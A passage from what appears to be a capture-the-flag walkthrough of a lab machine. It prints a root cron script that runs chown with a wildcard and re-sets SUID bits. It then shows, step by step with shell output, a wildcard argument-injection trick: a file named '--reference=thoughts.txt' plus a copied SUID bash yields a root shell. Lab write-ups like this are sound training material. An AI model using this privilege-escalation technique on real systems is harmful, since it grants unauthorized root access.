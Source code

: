     
    #!/usr/bin/python
    
    from subprocess import run, PIPE, DEVNULL
    
    find = run(["/usr/bin/find", "/usr/src", "-perm", "-4000"], stdout=PIPE, stderr=DEVNULL, encoding="utf-8").stdout.split('\n')[:-1]
    
    chown = run(["cd /usr/src; /usr/bin/chown nobody:nobody *"], stderr=DEVNULL, shell=True)
    
    for suid in find:
            chmod = run(["/usr/bin/chmod", "+s", suid],stderr=DEVNULL)
    

It uses `subprocess.run` to do three things:

  * Run the `find` command to get a list of any SUID files in the `/usr/src` directory.
  * Change into the `/usr/src` directory and run `/usr/bin/chown nobody:nobody *`.
  * Loop over the SUID file names from the first command, and for each, run `chmod +s [file]`.

I understood the second was what allowed the exploit to root, but it took me a
minute to see what the first and third actions were for.

### Slightly Alternative Root

The immutable `thoughts.txt` file and the strange resetting of SUID in the
automation Python together provide an alternative way to exploit the wildcard
vulnerability.

Instead of getting an important file that should be owned by root to be owned
by sec, I’ll create a SUID binary and get the cron to have it owned by root.
I’ll drop a copy of `bash` into `/usr/src`, set it to SUID, and create a file
so that `chown` will reference `thought.txt`:

    
    
    [sec@shrek src]$ touch -- --reference=thoughts.txt
    [sec@shrek src]$ cp /bin/bash 0xdf
    [sec@shrek src]$ chmod +s 0xdf 
    [sec@shrek src]$ ls -l
    total 816
    -rwsr-sr-x 1 sec  users 828320 Jul 17 11:55  0xdf
    -rw-r--r-- 1 sec  users      0 Jul 17 11:55 '--reference=thoughts.txt'
    -rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt
    

When the cron runs, `0xdf` is now owned by root, and still SUID:

    
    
    [sec@shrek src]$ ls -l
    total 816
    -rwsr-sr-x 1 root root  828320 Jul 17 11:55  0xdf
    -rw-r--r-- 1 sec  users      0 Jul 17 11:55 '--reference=thoughts.txt'
    -rw-r--r-- 1 root root      91 Aug 22  2017  thoughts.txt
    

And it will give me a root shell:

    
    
    [sec@shrek src]$ ./0xdf -p
    0xdf-4.4# 
    